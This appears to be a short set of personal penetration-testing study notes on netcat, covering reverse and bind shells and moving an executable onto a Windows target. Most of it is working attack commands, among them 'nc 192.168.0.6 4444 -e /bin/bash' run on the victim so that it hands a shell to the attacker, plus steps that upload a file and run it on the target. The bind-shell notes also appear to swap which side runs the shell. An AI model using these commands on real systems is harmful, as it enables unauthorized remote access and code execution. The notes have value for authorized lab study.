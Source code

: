 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444
//or -n skip dns name resolution & verbose
nc -n -v 10.11.0.22 110

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

//just to open connection, and chat
nc -nv 10.11.0.22 4444


# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo

# transfer files to windows
//on target system and redirect any file to incoming.exe
nc -nlvp 4444 > incoming.exe

//locate file
locate wget.exe

// transfer file => we need to wait for file being uploaded
nc -nv 10.11.0.22 4444 < /user/share/.../wget.exe

//on target but first abort nc
incoming.exe -v